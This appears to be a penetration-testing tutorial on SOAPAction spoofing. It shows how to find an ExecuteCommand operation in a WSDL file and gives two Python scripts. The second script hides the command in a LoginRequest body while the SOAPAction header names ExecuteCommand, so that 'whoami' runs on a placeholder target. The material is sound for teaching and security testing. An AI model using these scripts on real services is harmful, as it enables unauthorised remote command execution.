 
# Web Service Attacks 

## SOAPAction Spoofing

SOAP messages towards a SOAP service should include both the operation and the related parameters. This operation resides in the first child element of the SOAP message's body. If HTTP is the transport of choice, it is allowed to use an additional HTTP header called SOAPAction, which contains the operation's name. The receiving web service can identify the operation within the SOAP body through this header without parsing any XML. If a web service considers only the SOAPAction attribute when determining the operation to execute, then it may be vulnerable to SOAPAction spoofing.

Suppose we are assessing a SOAP web service, whose WSDL file resides in `http://<TARGET>:3002/wsdl?wsdl`. The first thing to pay attention to is the following:
```xml
<wsdl:operation name="ExecuteCommand">
<soap:operation soapAction="ExecuteCommand" style="document"/>
```

We can see a SOAPAction operation called `ExecuteCommand`. Let us take a look at the parameters:
```xml
<s:element name="ExecuteCommandRequest">
<s:complexType>
<s:sequence>
<s:element minOccurs="1" maxOccurs="1" name="cmd" type="s:string"/>
</s:sequence>
</s:complexType>
</s:element>
```

We notice that there is a *cmd* parameter, let's make a Python script that runs a `whoami`:
```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></ExecuteCommandRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```

> This function only works on internal networks.
{: .prompt-alert}

Let's build now the SOAPAction spoofing attack:
```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
